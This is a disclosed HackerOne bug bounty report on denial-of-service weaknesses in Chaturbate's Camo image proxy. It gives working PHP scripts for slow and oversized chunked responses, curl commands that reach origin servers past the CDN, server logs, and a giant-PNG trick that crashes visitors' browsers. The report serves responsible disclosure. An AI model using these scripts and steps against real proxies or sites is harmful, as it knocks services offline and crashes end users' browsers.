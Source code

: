 # DoS attacks utilizing camo.stream.highwebmedia.com

## Report Details
- **Report ID**: 507525
- **URL**: https://hackerone.com/reports/507525
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-03-10T20:15:44.641Z
- **Disclosed**: 2019-05-01T14:00:11.297Z

## Reporter
- **Username**: teuvokas
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: chaturbate

## Vulnerability Information
# DoS attacks utilizing camo.stream.highwebmedia.com

## Summary

The asset proxy at `camo.stream.highwebmedia.com` used to embed external images linked by users fails to enforce
  1. a timeout on slow responses if a little data is sent every 10 seconds (a kind of "reverse-slowloris" attack)
  1. a size limit on responses with `Transfer-Encoding: chunked` (i.e. no `Content-Length` header)

Different types of Denial of Service attacks could be launched by utilizing these weaknesses.
 
### Related findings that may be useful in attacks
  1. The caching of responses by the CDN can be disabled
      1. by returning status code 500 for the asset response (instead of 200 OK)
      2. OR by appending a random query string to the https://camo.stream.highwebmedia.com/ URLs
         - this alone could turn the asset proxy to a DoS-proxy for attacking other sites
  1. The CDN can be bypassed altogether by logging the origin IPs of the requests from the asset servers and pointing 
  `camo.stream.highwebmedia.com` requests directly to them  (e.g. `curl https://camo.stream.highwebmedia.com/2ae5... --resolve camo.stream.highwebmedia.com:443:██████████43`)
  1. The asset proxy will follow http redirects to other images 
  1. The asset proxy status page is publicly accessible (https://camo.stream.highwebmedia.com/status)

## Steps to reproduce

### Preparations

* Configure a publicly accessible web server with PHP support and high timeout values. 
* Create `slow.php` that outputs a few kB of data every 9 seconds with `Transfer-Encoding: chunked` and status code 500

```
<?php

ob_end_flush();
header("HTTP/1.1 500 Internal Server Error");
header("Content-Type: image/png");
header("Content-Length: ". 1024 * 1024 * 2);

for($i=0; $i<200; $i++) {
  echo str_pad('hi', 4096, "hiho");
  flush();
  sleep(9);
}
```

* Create `big.php` that outputs lots of data with `Transfer-Encoding: chunked` and status code 500:

```
<?php

ob_end_flush();
header("HTTP/1.1 500 Internal Server Error");
header("Content-Type: image/png");

$total    = 1024**3; // 1G
$buffSize = 1024**2; // 1M
$buff     = str_pad('hi', $buffSize, "hiho");

while($total > 0) {
 echo $buff;
 $total -= $buffSize;
}
```

* Create `big_valid.php` that outputs an extra large valid PNG image (e.g. 457 MB file from https://visibleearth.nasa.gov/view.php?id=73751) with `Transfer-Encoding: chunked`:

```
<?php

ob_end_flush();
header("HTTP/1.1 200 OK");
header("Content-Type: image/png");
readfile("really_big.png");
```  

* Create a White Label and add images to the Homepage intro (or a verified profile html):

```
<img src="http://███████/slow.php">
<img src="http://███/big.php">
<img src="http://█████/big_valid.php">
```

* On the white label front page, the links will be rendered as follows:

```
slow.php:      https://camo.stream.highwebmedia.com/4854b41b7c19a74ff2007dced08a28a6b67459a8/█████
big.php:       https://camo.stream.highwebmedia.com/a7a0e0c605129fb8640a463bcc71a78b909f41f3/█████████
big_valid.php: https://camo.stream.highwebmedia.com/0f82e8c654f4e58966f574d0f19ead4b71fe2d26/████████
```

### Attacks 

#### 1) Slow requests

* Launch curl to fetch `slow.php` multiple times as background process (here targeting a specific proxy ip, but works OK thru the CDN too)
  
```
$ time curl -s https://camo.stream.highwebmedia.com/4854b41b7c19a74ff2007dced08a28a6b67459a8/████ --resolve camo.stream.highwebmedia.com:443:██████32 > /dev/null &
```

* Verify that the requests are still in pending after a while

```
$ jobs
[1]   Running                 time curl -s https://camo.stream.highwebmedia.com/4854b41b7c19a74ff2007dced08a28a6b67459a8/████ --resolve camo.stream.highwebmedia.com:443:██████32 > /dev/null &
[2]   Running                 time curl -s https://camo.stream.highwebmedia.com/4854b41b7c19a74ff2007dced08a28a6b67459a8/██████ --resolve camo.stream.highwebmedia.com:443:██████32 > /dev/null &
[3]   Running                 time curl -s https://camo.stream.highwebmedia.com/4854b41b7c19a74ff2007dced08a28a6b67459a8/████ --resolve camo.stream.highwebmedia.com:443:████32 > /dev/null &
...
```

* Confirm pending requests from the asset server

```
$ netstat -nt | grep ESTABLISHED | grep -c ████32
20
```

* The requests typically stayed pending close to the 30 min timeout of the asset server, as seen from the nginx access.log (the 1500+ sec is the response time):

```
...
██████████32 - - [10/Mar/2019:19:37:36 +0100] "GET /slow.php HTTP/1.1" 500 301 707302 707136 1549.636 "-" "Camo Asset Proxy 2.5.0" "-"
██████████32 - - [10/Mar/2019:19:38:22 +0100] "GET /slow.php HTTP/1.1" 500 301 727742 727576 1594.828 "-" "Camo Asset Proxy 2.5.0" "-"
████32 - - [10/Mar/2019:19:38:22 +0100] "GET /slow.php HTTP/1.1" 500 301 727742 727576 1594.405 "-" "Camo Asset Proxy 2.5.0" "-"
█████████32 - - [10/Mar/2019:19:41:48 +0100] "GET /slow.php HTTP/1.1" 500 301 819366 819200 1800.059 "-" "Camo Asset Proxy 2.5.0" "-
```

#### 2) Excessive network traffic

* Launch curl to fetch `big.php` a few times as background process 

```
$ time curl -s https://camo.stream.highwebmedia.com/a7a0e0c605129fb8640a463bcc71a78b909f41f3/██████████ > /dev/null & 
```

* With just 3 concurrent curl instances, I was able to reach an outgoing transfer rate of over 600 Mbps from the asset server. Nginx access.log showed the following:

```
████34 - - [10/Mar/2019:19:38:15 +0100] "GET /big.php HTTP/1.1" 500 300 1073742118 1073741949 49.271 "-" "Camo Asset Proxy 2.5.0" "-"
█████40 - - [10/Mar/2019:19:38:23 +0100] "GET /big.php HTTP/1.1" 500 300 1073742145 1073741976 55.455 "-" "Camo Asset Proxy 2.5.0" "-"
█████34 - - [10/Mar/2019:19:38:36 +0100] "GET /big.php HTTP/1.1" 500 300 1073742126 1073741957 68.682 "-" "Camo Asset Proxy 2.5.0" "-"
```

#### 3) Crashing the end-user's browser

* When using a normal browser to go to the white label front page that has the `big_valid.php` PNG embedded (e.g. https://latesty.chaturbate.com), the browser is likely to become unstable or crash. Especially Chrome seems to crash easily with huge PNGs embedded into a web page.
* The CDN will cache the large image file saving bandwidth from the attacker

## Impact

* The slow responses could probably be used exhaust the asset proxy server concurrency limits or available sockets.
* The large downloads could be used to exhaust network capacity or available memory/disk space on the proxy server.
* Embedding large but valid images to user profiles can be used to make the end-user's browsers unstable
* The asset proxy servers could also be used to launch proxied DoS attacks against external web servers, especially those that host large images but do not supply a Content-Length header

## Attachments
No attachments
